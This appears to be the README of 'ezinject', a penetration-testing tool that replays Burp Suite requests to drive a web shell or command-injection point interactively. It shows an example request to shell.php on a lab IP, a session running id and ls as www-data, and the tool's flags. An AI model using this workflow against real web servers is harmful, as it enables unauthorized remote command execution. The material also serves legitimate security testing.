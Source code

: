 # ezinject
Save requests from Burp Suite and interact with web shells or command injection on web applications the easy way.  
Just replace the command injection with &lt;EZINJECT&gt; or something of your choosing with the '-c' flag.

### Example
```
$ cat test.req
GET /shell.php?cmd=<EZINJECT> HTTP/1.1
Host: 192.168.56.6:9000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/4.0 (compatible; Mozilla/5.0 ; Linux i686)
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US;q=0.9,en;q=0.8
Connection: close

$ python3 ezinject.py -r test.req -os linux -http
ez >  id                     
uid=33(www-data) gid=33(www-data) groups=33(www-data)

ez >  ls                     
index.html
index.nginx-debian.html
shell.php

ez >
```
### Command line flags
```
$ python3 ezinject.py -h
usage: ezinject.py [-h] [-v] [-http] -r REQUESTFILE -os OS [-c COMMAND]
                   [-p PATTERN] [-first]

Interact with web shells or command injection on web applications.

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Display server reponse headers
  -http                 Force connecting over HTTPS
  -r REQUESTFILE, --request REQUESTFILE
                        Burp Request file
  -os OS, --operating-system OS
                        Target operating system (Windows|Linux)
  -c COMMAND, --command COMMAND
                        Command to replace in the burp file, ensure this is
                        unique in the request (default: <EZINJECT>)
  -p PATTERN, --pattern PATTERN
                        Specify a pattern that is located either side of
                        command output to extract eg: --pattern ZZZ (this will
                        filter ZZZ<command output>ZZZ)
  -first                If command output is appended, this will print the
                        first occurence. (default: print the last occurence)
```

### Features
- Tab completion 
- (Ctrl-l or "clear" or "cls") clears the screen
- History
- Type "EzHelp" for ezinject help commands (command not sent over the network)

### TODO
- Implement File Upload and Download functionality (Performed in segments via base64)
- Flag that will auto generate and filter string for command injection
